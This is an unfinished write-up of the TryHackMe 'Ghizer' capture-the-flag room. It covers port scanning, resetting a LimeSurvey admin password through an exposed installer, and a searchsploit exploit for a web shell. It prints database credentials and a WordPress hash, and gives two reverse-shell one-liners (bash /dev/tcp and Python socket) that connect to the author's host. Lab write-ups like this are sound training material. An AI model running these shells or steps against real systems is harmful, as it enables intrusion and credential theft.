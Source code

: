 # Tryhackme.com Room : Ghizer
`https://tryhackme.com/room/ghizerctf`


# Instance
```
export IP=10.10.89.94
```

# Nmap
```
21/tcp  open  ftp?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, RTSPRequest, X11Probe: 
|     220 Welcome to Anonymous FTP server (vsFTPd 3.0.3)
|     Please login with USER and PASS.
|   Kerberos, NULL, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|_    220 Welcome to Anonymous FTP server (vsFTPd 3.0.3)
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: B55AD3F0C0A029568074402CE92ACA23
|_http-generator: LimeSurvey http://www.limesurvey.org
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title:         LimeSurvey    
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 5.4.2
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Ghizer &#8211; Just another WordPress site
| ssl-cert: Subject: commonName=ubuntu
| Issuer: commonName=ubuntu
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-07-23T17:27:31
| Not valid after:  2030-07-21T17:27:31
| MD5:   afb1 a2b9 1183 2e49 f707 9d1a 7198 9ca3
|_SHA-1: 37f1 945f 6bc4 3fad 3f0f ca8d 3788 2c17 cc25 0792
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
```

So we got a `limesurvey` server running on port `80` and a wordpress blog on `443`.

There is also an `ftp` server running. The header says that it's an `anonymous` ftp server but we can't login with `anonymous` user (Password required)

On the wordpress site we see :
```
Welcome to my WordPress antihackers!

I use the plugin WPS Hide Login for hide wp-login!

try harder!

? it’s very important :3333
```

This comment is written by `Anny`

We ran `gobuster` on both ports.

Port `443`:
```
/wp-content (Status: 301)
/wp-includes (Status: 301)
/wp-admin (Status: 301)
/server-status (Status: 403)
```

Port `80`:
```
/docs (Status: 301)
/themes (Status: 301)
/admin (Status: 301)
/assets (Status: 301)
/upload (Status: 301)
/tests (Status: 301)
/plugins (Status: 301)
/application (Status: 301)
/tmp (Status: 301)
/framework (Status: 301)
/locale (Status: 301)
/installer (Status: 301)
/third_party (Status: 301)
/server-status (Status: 403)
```

by browsing `/docs/release_notes.txt` we get the version of `limesurvey`:
```
3.15.9
```

By running `/installer/create-database.php` we reset the admin password to
```
admin:password
```

Or were they already that ? Didn't check before. Anyhow, now we are in `limesurvey`.

Looking at `searchsploit` I found `php/webapps/46634.py`.

And running that we got a shell as `www-data`

For some reason, we can't stabilize a shell with python or stty raw -echo.
Also, we can't move out of `/var/www/html/limesurvey`
Can't spawn a python shell.
I don't see `stderr`

We cant still run commands tho. Listing `../wordpress` we find `wp-config.php` which contains the db logins :
```
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpressuser' );

/** MySQL database password */
define( 'DB_PASSWORD', 'password' );
```

By poking around, I might have found how to get to `root` once we get acess to `veronica` account.

There is a file `cat /home/veronica/base.py`
```
import base64

hijackme = base64.b64encode(b'tryhackme is the best')
print(hijackme)
```

So i'm guessing we need to inject ourselve before `base64` module

Let's try a reverse shell to get rid of this annoying shell
```
python -c "import os; os.system('bash -i >& /dev/tcp/10.6.32.20/7777 0>&1')"
```

Hmmm nop..

Let's get back to `base.py`

With `python -c "import base64; print base64.__file__"`
We find from where `base64` is launched
```
/usr/lib/python2.7/base64.pyc
```

We list the python paths `python -c 'import sys; print sys.path'`
```
['', '/usr/lib/python2.7', '/usr/lib/python2.7/plat-x86_64-linux-gnu', '/usr/lib/python2.7/lib-tk', '/usr/lib/python2.7/lib-old', '/usr/lib/python2.7/lib-dynload', '/usr/local/lib/python2.7/dist-packages', '/usr/lib/python2.7/dist-packages']
```

So this is basically in the first path. Maybe we can inject with `PYTHONPATH` env variable ?

Couldn't set `PYTHONPATH` using export,  used `env` command :
```
env PYTHONPATH=/var/www/html/limesurvey/py python /home/veronica/base.py
```

And we get injection. Although, this is useless unless it is runned as another user..

Soo, was annoyed by the limited shell so I tried another revshell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.32.20",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

And it worked :)

So now we can look at the wordpress database.
We find this in users
```
 1 | Anny       | $P$BJImLXNua3oNCoX7gSXEvWkHxuz.K9. | anny          | ghizer@thm.com | https://192.168.85.128 | 2020-07-23 22:46:47 |                     |           0 | Anny
 ```

 Maybe we can crack the password ? Might be the same as `veronica` ?

In wp-config, maybe we can reach the wordpress admin login ? What would that give us ? We still be `www-data`
```
(156,'whl_redirect_admin','404','yes'),
```